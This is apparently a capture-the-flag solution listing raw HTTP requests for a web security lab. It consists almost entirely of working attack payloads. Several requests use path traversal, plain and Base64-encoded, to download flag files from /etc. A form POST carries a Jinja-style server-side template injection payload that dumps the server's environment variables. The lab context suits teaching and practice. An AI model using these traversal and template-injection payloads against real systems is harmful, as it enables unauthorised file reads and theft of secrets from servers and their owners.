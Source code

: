 0 GET /task0/download_file?filename=0-flag.txt&path=/etc HTTP/1.1
1 GET /task1/download_file?filename=1-flag.txt&path=..//etc HTTP/1.1
2 GET /task2/download_file?filename=&path=L2V0Yy8yLWZsYWcudHh0 HTTP/1.1 (This is /etc/2-flag.txt encoded in Base64)
3 GET /task3/create_rapport HTTP (this will show you the form)
GET /task3/list_file HTTP/1.1
GET /task3/view_file?filename=RAPPORT_13-25_1743254710_29-03-2025.html HTTP/1.1

POST /task3/create_rapport HTTP/1.1
Host: web0x07.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://web0x07.hbtn/task3/list_file
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: [appropriate length]

rapport={{ config.__class__.__init__.__globals__['os'].environ }}

